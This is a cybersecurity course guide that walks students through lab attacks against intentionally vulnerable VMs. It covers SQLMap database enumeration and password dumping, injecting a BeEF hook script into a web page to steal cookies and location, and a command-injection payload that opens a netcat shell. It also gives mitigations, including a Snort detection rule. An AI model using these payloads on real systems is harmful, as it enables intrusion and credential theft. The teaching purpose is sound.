## 15.2 Student Guide: Exploitation and Mitigation
 
### Overview

In the last class, we introduced  the web vulnerabilities inherent to client-server web architecture. In today’s class, we’ll continue our discussions by exploring other types of web vulnerabilities included in the OWASP Top 10.

- We’ll focus more on exploitation and mitigation of these threats through practical, hands-on, lab-based activities, and continue to build on your knowledge of attack-defend methodologies to help formulate mitigation strategies.

- Today’s class is all about thinking critically about the attacker’s perspective in order to develop  mitigation strategies.

### Class Objectives
By the end of the lesson, you will be able to:

- Execute SQLi attacks using SQLMap.

- Execute a BeEF hook to perform various client-side attacks against the victim’s web browser. 

- Perform a command injection on a Windows machine to dump and exfiltrate hashed passwords. 

- Provide mitigation strategies for each attack executed. 


### Slideshow

The lesson slides are available on Google Drive here: [15.2 Slides](https://docs.google.com/presentation/d/15Xcxvyznkq2z24QVOs2aPC_lXF-xIKYZzDs_0j_o034/edit)

---


### 01. Welcome and Overview 

Throughout this unit, we will use examples of malicious attackers to show how various attacks and exploits work and how we can better defend against them. It is important that the skills we learn in offensive security units should only be used ethically and with permission. The actions and intents of hacktivists, criminal hackers, and other malicious actors that we mimic for demonstrations are in no way condoned or encouraged.

In the previous lesson, we introduced the OWASP Top 10, explained how various aspects of web infrastructure provide opportunities for attackers, and learned about many different attacks and mitigation strategies. 

Today, we will focus on specific vulnerabilities and look at the follow aspects of each: 

- How they are constructed from a conceptual and practical standpoint. 

- The impact level and respective CIA triad components that are most affected. 

- How to carry out these attacks, enforcing the "offense informs defense" mindset. 

- The most effective mitigation strategies.


### 02.  Injections 

Look back to OWASP Top 10: owasp.org/www-project-top-ten. Note that **injection** is the top web vulnerability. 

- According to OWASP, "injection flaws, such as SQL, NoSQL, OS, and LDAP injection, occur when untrusted data is sent to an interpreter as part of a command or query. The attacker’s hostile data can trick the interpreter into executing unintended commands or accessing data without proper authorization."

This is concerning for the many organizations that host web-based database servers. One specific threat is SQLi attacks. 

- SQL (Structured Query Language) is a language used for programming and managing databases. 

- SQLi attacks inject malicious SQL code through a client-side application such as a browser, revealing private data within the database. 

- This flaw is easily detectable and exploitable. Any website, no matter how many users it has, may experience these types of attacks.


#### Impact Level and TTPs 

Criminal adversaries use SQLi as a technique to perform the following:

   - Violate authentication by spoofing a user’s identity.
   
   - Cause repudiation issues.
   
   - Violate data integrity by modifying existing data.

SQLi attacks mainly affects the confidentiality pillar of the CIA triad by revealing private and sensitive data. However, loss of integrity and availability are also risks.  

- Confidentiality:  SQLi leverages the leak of sensitive data in SQL databases, directly impacting confidentiality.

- Authentication:  SQL commands can be manipulated to scan, modify, and extract usernames and passwords, allowing an attacker to connect as an authorized user. 

- Integrity: Attackers can potentially read sensitive information, allowing them to modify or delete critical information.

If an attacker compromises a single pillar of the CIA triad, the other two are typically impacted soon after.   

#### SQLMap Overview

SQLMap is an open-source command-line tool that automates the process of detecting and exploiting SQL injection flaws in order to take control of database servers.

- SQLMap contains a powerful detection engine with many features that enable attackers to access an underlying database file system.

- With SQLMap, attackers can execute commands on the database server using **out-of-band** connections, meaning that an attacker can remotely control a back-end database using a backdoor connection, such as an RAT (Remote Access Trojan).


#### SQLMap Demo

We'll demonstrate how to perform a SQLi attack with the following scenario:

- A recently fired employee is aware of a vulnerability in the company's back-end database. They are going to exploit it and steal usernames and passwords with the intent to sell them on the dark web.

- They will use SQLMap to enumerate usernames and passwords, and then dump them for extraction.


For this demo we’ll use two VMs:

- Attacker: Kali Linux
- Vulnerable Web Database: owaspbwa

1. Because SQLmap generates "noisey traffic" we're going to want to make sure our victim is running a mysql database **before** attacking their server with SQLmap. 

2. In owaspbwa, navigate to the IP address of the **OWASP BWA** machine:
   - Select **OWASP Bricks** on the webpage of your OWASP BWA machine. 
   - Hover over the drop down menu in the upper right hand corner entitled **Bricks**.  
   - Click **Login Pages**.
   - Click **Login #1**.

   **Note:** Make sure you click the **x** in the **You are not logged in** box. 

   - Copy the URL of the Bricks Login page.

3. In Kali Linux, open a terminal window and run the following command to see available options:
   
   - `sqlmap –h` 
   
   - Clear the screen.
   
   Now we'll enumerate the back-end database to find out what commands to execute.
   
   - We want to force a failed login in order to get the correct URL for our SQLMap command. Any incorrect credentials will do:
   
      - Username: `Jack`
      - Password: `password`
         
   - After your login fails, we can see that the code error below is showing us that this is a MySQL backend sever. 
   
   Type the following command:
   
   `sqlmap -u "http://172.16.203.141/owaspbricks/login-1/"`
   
      - `sqlmap`: Detects SQL injection vulnerabilities.
      - `-u`: Indicates a URL for SQLMap to scan.
      - `"http://172.16.203.141/owaspbricks/login-1/"` is the website we are attacking. 
      
   

   The output should show the back-end database identified as `mysql 5.0.12`.

1. In Kali Linux, at the SQL prompt: 
   
   `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms --users`
   
      - `--dbms=mysql`: Specifies which database management system to exploit.
      - `--forms`: Parses and tests forms on the target URL.
      - `--users`: Enumerates database users.

It's important to note that once we run the command, SQLmap will prompt us everytime about it's default options such as:
  - Do we want to test additional forms that SQLmap detects?
  - Do we want to fill blank fields with random values?
  - Do we want to have SQLmap try to inject with random integer values?

Because we want to be as thorough as possible, as we go through SQLmap and it's options, we are going to hit the `enter` key at each prompt to accept the optional options.

Run: `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms --users`    
  - Press the `enter` key on your keyboard to accept the additional SQLmap options. 

As the SQLmap runs explain the following options that we are accepting:

   

This has identified the fields **username**, **passwd**, and **submit** on the http://172.17.11.211/owaspbricks/login-1/index.php page. This is asking us if these are the fileds that if we'd like to have SQLmap test the fields. 

```
POST http://172.17.11.211/owaspbricks/login-1/index.php
POST data: username=&passwd=&submit=Submit
do you want to test this form? [Y/n/q] 
> 
```
- Hit **Enter**

Next you will be presented with:

```
Edit POST data [default: username=&passwd=&submit=Submit] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] 
```

This is asking if we'd like to test the blank fields with random values. 
- Hit **Enter**

Next you will be asked:

```
[INFO] testing for SQL injection on POST parameter 'username'
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
```

Running tests like these will cause a lot of traffic and potetentially alert the security team to what we are doing. We're going to hit the `Enter` button, to maintain a lower risk level.
- Hit **Enter**

Next you will be asked:

```
[INFO] target URL appears to have 8 columns in query
do you want to (re)try to find proper UNION column types with fuzzy test? [y/N] 
```

This is asking us if want to find UNION column types. Hit **Enter** to accept. 
- Hit **Enter**

Next you will be asked:

```
[INFO] target URL appears to be UNION injectable with 8 columns
injection not exploitable with NULL values. Do you want to try with a random integer value for option '--union-char'? [Y/n] 
```

Now that it's found the the UNION column, it's asking us if we'd like to try using random integers for injection. Hit **Enter** to accept.


Next we will be asked:

```
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 413 HTTP(s) requests:
```

SQLmap found one username we can test **username**. SQLmap wants to know if it should keep trying other names. Explain that we're going to to hit **Enter** to test as many names as possible. 
- Hit **Enter**

Lastly, you will see:

```
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: username=xalN' RLIKE (SELECT (CASE WHEN (7674=7674) THEN 0x78616c4e ELSE 0x28 END))-- Cxmg&passwd=&submit=Submit

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=xalN' AND (SELECT 7043 FROM (SELECT(SLEEP(5)))Znez)-- BCTT&passwd=&submit=Submit
---
do you want to exploit this SQL injection? [Y/n] 

```

SQLmap has found a vulnerability in the mysql server. We're going to hit **Enter** and have SQLmap exploit this vulnerability. 
- Hit **Enter**


Notice that SQLmap was able to retrieve the following usernames:

   


   - When you see the following message, press Enter to continue:

      ```bash
      Edit POST data [default: username=&passwd=&submit=Submit] (Warning: blank fields detected):
      ```
   
      **Note:** Depending on your version of SQLMap, you may see the message:

      ```bash
      ---
      there were multiple injection points, please select the one to use for following injections:
      [0] place: POST, parameter: username, type: Single quoted string (default)
      [1] place: POST, parameter: passwd, type: Single quoted string
      [2] Quit
      >
      ```
   - Choose option `0`, the default option for username.

      - This basic scan will provide attackers specific details about any potential vulnerabilities that exist within a web form.
   
   - Notice that we see the various tests that are performed by the scan:
   
      - `Boolean-based Blind`: Returns a different result depending on whether the query returns a `TRUE` or `FALSE` result.

      - `Time-based Blind`: Forces the database to wait for a specified amount of time (in seconds) before responding.
   
   - The error messages tell attackers what type of database is running, and details about the type of web application running on the system.
   
   - It's important to note that the configuration information coming from the back-end server allows attackers to understand what type of database management information system is running, such as:
      - Database type and version numbers.
      - Number of registered database users.
   
   - Here we can see that SQLMap has successfully enumerated 38 users.
   
     
   
4. The attacker knows that there is a MySQL DBMS running on the back-end server, which is `mysql 5.0.0`.
   
   - SQLMap provides attackers with a lot of useful and detailed information about a victim’s web infrastructure.
   
   - With this information, the attacker can understand what potential vulnerabilities exist, which informs which additional enumeration techniques to use. 
   
    At the Kali Linux SQL prompt, type the following command:
   
    `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms --users --passwords`
   
      - `--passwords`: Asks SQLMap to perform a dictionary attack to enumerate user passwords.

We're going to see a lot of the same options before, such as testing the different fields we saw from earlier, the same page and exploit. This time, however, SQLmap will **retrieve, and crack** the users password hashes for us.
- Hit the `Enter` key for each of the fields that pops up, reminding students of each prompt from before. 
   
     
   
- You should see enumerated hashed versions of passwords, as below.
   
   
   
   - You should see cracked passwords in plain text, as below.
   
   
   
5. With this information, attackers can perform deeper scans that reveal even more details. We’ll demonstrate this by listing all of the available databases.
   
   - Type the following command:
   
     `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms --dbs`
      
      - `-dbs`: Asks SQLMap to return results for all databases.
      - Remember, SQLmap doesn't keep track of our previous preferences. We will be prompted by the same prompts as before. Press the **Enter** key at each prompt.  

   
   
6. The attacker now knows that there are 34 databases. These databases hold valuable personal information, such as credit card information and social security numbers. 

   


7. We'll focus on the `bricks` database for the rest of this demo. Next, we'll need to enumerate the tables and columns in the `bricks` database.
   
   - Type the following command:
   
      `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms -D bricks --tables`
   
   
      - `-D bricks`: Specifies the `bricks` database.
      - `--tables`: Displays all tables contained within the database.
      - Remember, SQLmap doesn't keep track of our previous preferences. We will be prompted by the same prompts as before. Press the **Enter** key at each prompt. 

   
   Only one table was returned: `users`.
   
   

8. Next, we'll enumerate the columns contained within the `users` table.

   - Type the following command:
   
      `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms -D bricks -T users --columns`
   
   
      - `-T user`: Targets the  `users` tables.
      - `--columns`: Returns all of the columns for the associated table.
      - Remember, SQLmap doesn't keep track of our previous preferences. We will be prompted by the same prompts as before. Press the **Enter** key at each prompt. 

   
   - The results show eight columns associated with the `users` table in the `bricks` database.
   
   

   
8. At this stage, attackers will be able to perform data extraction using the information they've gathered so far. 

   - In this example we'll dump (extract) `names`, `passwords`, and `emails`. 
   
   - Type the following command:
   
     `sqlmap -u http://172.16.203.141/owaspbricks/login-1/ --dbms=mysql --forms -D bricks -T users -C name,password,email --dump`
      
      - `-C name,password,email`: Specifies which specific columns to dump.
      - `--dump`: Dumps all of the data within the table to allow extraction.
   
   - SQLMap will ask if you want to store hashes to a temporary file. Answer "no" by typing `n`. 
      - This prompt tells the attacker that SQLMap was able to harvest the hashed user passwords.
      
   - SQLMap will now ask whether or not you want to perform a dictionary attack. 
      - This attack can be done immediately, in this terminal session. Respond with `y`.
      
   - SQLMap will return the structure of the `bricks` database for the `users` table, and all of the cracked passwords for each selected column in the table.
   
   
   
9. Return to the web browser at the Bricks Login page and test a few of the username and password combinations that were cracked to see if they work.
   
   - All of the username and password combinations should work as expected.
   
   - Emphasize that we have successfully hacked into a vulnerable web database. 

The key takeaways from this activity are:

- Back-end database systems are a valuable source of information for criminal hackers.

- Complacency can cause significant harm. We need to remember that just because back-end databases are buried deep within the web server architecture and protected by firewalls doesn't mean they are safe from attackers.  

- As proven in this demonstration, the URL can be manipulated in various ways to circumvent layered defense mechanisms contained within web infrastructure. This is accomplished by exploiting existing trust-based systems that are public-facing, such as HTTP port `80` and the URL.


### 03. Mapping the Database Activity

- [Activity File: Mapping the Database](Activities/03_Mapping_the_Database/Unsolved/Readme.md)

### 04. Review Mapping the Database Activity 

- [Solution Guide: Mapping the Database](Activities/03_Mapping_the_Database/Solved/Readme.md)


### 05. BeEF 

#### BeEF Exploitation

The **Browser Exploitation Framework** (BeEF) is a practical client-side attack tool that exploits vulnerabilities of web browsers to assess the security posture of a target. 

- While BeEF was developed for lawful research and penetration testing, criminal hackers have started using it as an attack tool.



BeEF uses "hooks" to activate a simple but powerful API, which takes remote control of client-based web browsers.

   - Once a browser has been "hooked," it becomes a zombie which awaits instructions from the BeEF control station.
   
      - Zombies that have been hooked by BeEF send out periodic **polls** to the BeEF control center. These are **keep alive** signals, and indicate that the zombie connection is running and awaiting further instructions from BeEF. 





- The majority of BeEF exploits occur as the result of an XSS attack, however, they can also be facilitated by social engineering campaigns and man-in-the-middle attacks.

- Other attack programs can be used as part of a post-exploitation campaign, which is outside the scope of this course. However, it should be noted that the Metasploitable framework provides a variety of post-exploitation attack modules.

- The BeEF framework also allows for the integration of custom scripts, which more experienced criminal hackers can use.

#### Impact Level: Integrity

BeEF exploits compromise the integrity of hooked machines. 

- A breach can also cause loss of confidentiality and availability, depending on the motives of the attackers.

BeEF was originally intended for pentesting. In addition to being an exploitation tool, BeEF acts as an information gathering tool by providing additional details about the victim's computer, revealing other types of attacks that can be performed.

#### BeEF Demo Setup

For the demonstration, log into Azure and launch the Web Vulns VM.

We will use BeEF in the following scenario:

   - Your CISO released a memo about potential web vulnerabilities in the company’s web browsers.
   
   - Your security manager has asked you to perform a penetration test to identify any underlying client-side browser vulnerabilities and recommend mitigation strategies.
   
   - You will use the BeEF framework for your research during your penetration tests.


We'll need to complete the following tasks:

- Edit the `.html` file and add malicious JavaScript to the webpage that we'll use in our attack.

- Visit the infected webpage from a host on the network (the victim).

- Execute a BeEF hook, then perform various client-side attacks against the victim’s web browser.

- Recommend three mitigation strategies that defend against BeEF hooks and malicious JavaScript.

#### BeEF Demo

This demo requires the Kali Linux VM which will both act as the attacker and the victim.

1. Acting as the attacker, open a terminal in your Kali VM and initiate BeEF by running: 

   - `sudo beef-xss`
      
      - **Note**: If you receive an pop-up error stating "Failed to execute default Web Browser," click **Close**.
      
   The output contains the malicious JavaScript that you will use for the attack.
         
   - We will use this script in the hook line:
      
     `<script src=”http://127.0.0.1:3000/hook.js” type=”text/javascript”></script>`
      
   We will modify the IP portion of the script to match that of our Kali machine (the attacker). The attacker's computer will act as the BeEF controller.
         
   - Attackers are likely to also use other tools, such as TOR and a VPN, to provide further obfuscation and repudiation.
   
   - Copy the line `<script src="http://127.0.0.1:3000/hook.js"></script>`
   
      
      
   
2. Open a new terminal window and start the Apache2 web server. We'll use the Apache2 service to host our malicious webpage.
   
   - Run	`sudo service apache2 start`   
   
   Minimize the window. We'll come back to it in a bit.  
      
3. Now we will edit the webpage, adding malicious JavaScript to the header section and modifying the JavaScript by changing the IP address to that of Kali Linux (the BeEF controller). 

   When a user visits this webpage, their browser will be hooked by BeEF and the attacker will gain control of it. 
      
   - Use Nano to edit the HTML file:
      - Run `sudo nano /var/www/html/index.html`
      
   Paste the malicious JavaScript line  `<script src="http://127.0.0.1:3000/hook.js></script>` inside the HTML header section (anywhere between the `<head>` and `</head>` tags) on its own line.
      
      -	Replace the IP address using the IP of the Kali host.
      
      -	Save the file and exit.

   The `<head>` section of your file should look like this:

      ```html
      <!doctype html>
      <!--- Website template by freewebsitetemplates.com--->
      <html>
      <head>
               <meta charset="UTF-8">
               <meta name="Viewport" content="width=device-width, initial-scale=1.0">
               <title>Space Science Website Template</title>
               <link rel="stylesheet" href="css/style.css" type="text/css">
               <link rel="stylesheet" type="text/css" href="css/mobile.css">
               <script src="js/mobile.js" type="text/javascript"></script>
               <script src="http://127.0.0.1:3000/hook.js></script>
      </head>
      <body>
      ```

      -	Replace the IP address using the localhost IP of `127.0.0.1`. 
      
      -	Save the file and exit.
      
      - Restart the apache server by running:
        - `service apache2 restart`

   Open a web browser and click the BeEF Authentication shortcut on the shortcut toolbar.
      
      -	Username: `beef`
      -	Password: `cybersecurity`
   
4. Acting as the victim, type `localhost` into the URL:
   
   - `localhost`
   
   
5. Returning back to act as the attacker, we can see our victim `127.0.0.1` under **Online Browsers**, in the **Hooked Browsers** section.

   -	You will see the hooked web browser from the Kali machine.
   
     
   
   -	Click on the hooked browser’s IP address.
   
   -	The window to the right will load the details of the selected hooked browser.
   
   -	The **Details** tab will display specific information about the web browser, in addition to session details. 
      
      - Some examples of useful information include:
         - Browser platform
         - Browser language
         - Browser plugins, if any
         - Browser components, e.g., Adobe Flash 
         
6. Next, click **Commands**. This will load the Commands Palette, where we can perform some basic exploitation.

   We’ll focus on a few tools. Let’s begin with the Get Geolocation command.
      
      - Type "Get" in the search box and press Enter.
      - Click the dropdown.
      - Scroll down and click **Get Geolocation (Third-Party)**.
      - In the dropdown box, select **https://ip.nf/me.json**.
      - Click **Execute**.
      
      
      
      - You can now see the real user's location.
         
      
      
 
7. Find out whether or not this user has any cookies.

   Under Module Tree, select **Browser**, **Hooked Domain** then **Get Cookie**.
   
      - Click **Execute**.
      - Click the command.
      - Observe the results. We should see `data: cookie=BEEFHOOK=l6q...`.
        - **Note:** Cookie results will vary. 
   
   Try out various commands to see which ones work.

    - Not all commands will work. This will depend on whether the browser is vulnerable to the exploit. Most modern or recently updated browsers will have patched most of these vulnerabilities.

#### BeEF Mitigation Strategies

BeEF uses an API through JavaScript to hook vulnerable web browsers of unsuspecting clients.

Mitigation strategies against BeEF hooks include:

- Use the Vegan Chrome browser extension. This extension detects BeEF hooks and blocks offending domains, preventing the attack.
   
- Create a Snort rule. You can add an emerging threats Snort rule to the company’s IDS, such as:

   - `alert tcp $HOME_NET any -> $EXTERNAL_NET $HTTP_PORTS (flow:to_server,established; content:"Cookie|3a 20|BEEFSESSION=";)`

- Implement a Content Security Policy (CSP). A CSP is an added layer of network security that detects and mitigates specific types of attacks, such as XSS and injection attacks. 


### 06.  BeEF Activity

- [Activity File: BEef](Activities/07_BeEf/Unsolved/README.com)


### 07. Review BeEF Activity

- [Solution Guide: BEef](Activities/07_BeEf/Solved/README.com)

### 08. Windows-Based Injections 

Command injections are at the top of OWASPs's Top 10. 

- Just as each piece of hardware and software becomes a possible attack surface, various parts of the web can also become targets. These include: 

   - Environment variables
   - Parameters
   - Internal and external web services
   - All types of users

Injection flaws are most common in older code and modern code with weak SDLC practices. 

- Injection flaws often reside within SQL, NoSQL, LDAP, SMTP headers, XML parsers, and OS commands.

- Injection flaws are relatively easy to detect when examining code with fuzzers or scanners, which are also used by hackers to discover injection flaws.

Do you remember which aspect of the CIA triad is most directly affected by command injections. 

- Command injection exploits affect confidentiality:

   - Command injection attacks can result in data loss/corruption, unauthorized disclosure, loss of accountability, and/or loss of availability. 

   - Command injection attacks can also lead to a complete takeover, where the degree of impact depends on the business needs of the data and the application it runs on.


#### Windows-Based Web Server Injection

We've already looked at SQLi injections. Now we'll move on to Windows-based web server injections. 

We'll be using the Window's command shell with PowerShell, which we learned earlier in the course. Briefly review some of the basic syntax:

To search for a file located on the `c:\` drive:

   - `dir c:\filename /s`: Returns the location of a file called `filename`.
   
      - `dir`: Lists the directory.
      - `c:\filename`: The argument that the command is run against.
      - `/s`: Lists the file if included in a subdirectory.
   
We can inject code into files by outputting strings of characters into an argument with commands like `echo`:
      
   - `&& echo This_is_a_test > "c:\filename"`
   
      - `&&`: Links this command to the previous `dir c:\filename /s` command.
      - `echo`: Directs content into an argument.
      - `This_is_a_test`: The string that will be injected.
      - `> "c:\filename"`: The file that will be injected with code (the argument).

Now we'll do demos for **injection chaining** and **command injection**. 

#### Command Injection Chaining 

Similar to its use in bash scripting, chaining allows us to link a series of commands.

In this demonstration, we will be using the following machine environments:  

   - Attacker: Kali Linux
      - Username: `root`
      - Password: `toor`

   - Vulnerable Web Server: owaspbwa
      - Mutillidae II

Launch both VMs.

#### Injection Chaining Demonstration

1. In owaspbwa, identify the local IP of the VM.

   -  Run `ifconfig`

   - You may also see the IP on the welcome screen of the owaspbwa VM terminal.

   Note the IP, as you will use it in the following step.

   For the remainder of this demo, we'll use the example IP `172.16.203.141`.

2. In Kali, open Firefox and enter the IP of the owaspbwa VM into the URL.

   - When you arrive at the home page, choose OWASP Mutillidae II.

   Navigate to the following webpages:

   - OWASP 2013 > A1 Injection Other > Command Injection > DNS Lookup

   - Set security level to Hosed.

   You will be presented with a window that says **DNS Lookup**.

   

3. We will now chain injections by entering a set of arbitrary commands separated by semicolons.

   Type the following commands into the **Hostname/IP** box:

   - `172.16.203.141; date; ls; cal; cd../; ls`

 

   
   

- Each individual command injection can be considered a mini session. This is because the server cannot remember what happened during the previous injection. 
   
- Therefore, if you change directories with the previous command injection, you will not be inside the new directory when you perform the next command injection.

#### Command Injection Shell

As a method of code injection, chaining limits the number of commands that can be run and the amount of work that can be done on the site. 

Alternatively, attackers can use a command injection shell to establish a reverse shell from the infected web server back to the attacker's machine, where a listener waits to complete the connection.

- We'll use a Netcat listener on the attacker's Kali machine.

#### Command Injection Shell Demonstration

This demonstration will use the following environments:

   - Attacker: Kali Linux 
      - Username: `root`
      - Password: `toor`

   - Vulnerable Web Server: owaspbwa 
      - Mutillidae II > OWASP 2013 > A1 Injection (Other) > Command Injection > DNS Lookup  

Launch the owaspbwa and Kali VMs.

1. In Kali, navigate to the DNS Lookup page. We'll need to set up a listener on the inside of a network. 
   
   - Egress (outbound) filtering on web server firewalls is generally less restrictive than ingress (inbound) filters.

   Enter the following code into the **Hostname/IP** box to establish a listener back to the attacker's machine.

   - `127.0.0.1;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe`

      - `127.0.0.1`: Localhost of the web server.
      - `;`: Indicates the start of the command injection.
      - `mkfifo /tmp/pipe;sh /tmp/pipe`: Makes a FIFO (first-in-first-out) named pipe. 
         - Pipes allow separate processes to communicate. This allows two processes to connect using Netcat and controls the directional flow of data. In this case, data will flow from a compromised web server to an attacker's computer.  
      - `nc -l 4444`: Netcat will establish a listener that allows connections on port `4444`.
        - Please note you'll only see the command below once you have terminated the connection.
   
     
   
2. Next, we'll open a connection to the listener on a vulnerable web server using Netcat from the attacker's machine.

   - `nc 172.16.203.141 4444`

      - `nc`: Runs Netcat.
      - `172.16.203.141`: IP address of Mutillidae (the vulnerable web server).
      - `4444`: Port of the listener.

      


   Leave the terminal window open. Now we can inject code into the vulnerable webpage.
   
   
3. Next, we'll test our exploit by running remote commands from the attack machine.
   
   - Run `pwd`.
   
     - Output should be similar to: `/owaspbwa/mutillidae-git`
   
   - Run `uname -a` 
   
      - Output should read `Linux owasp bwa...`
   
  This verifies that our exploit is operational. 
   
   


### 09. Command Injection

- [Activity File: Command Injection](Activities/09_Command_Injection/Unsolved/Readme.md)

### 10. Review Command Injection Activity 

- [Solution Guide: Command Injection](Activities/09_Command_Injection/Solved/Readme.md)

---

© 2020 Trilogy Education Services, a 2U, Inc. brand. All Rights Reserved.  
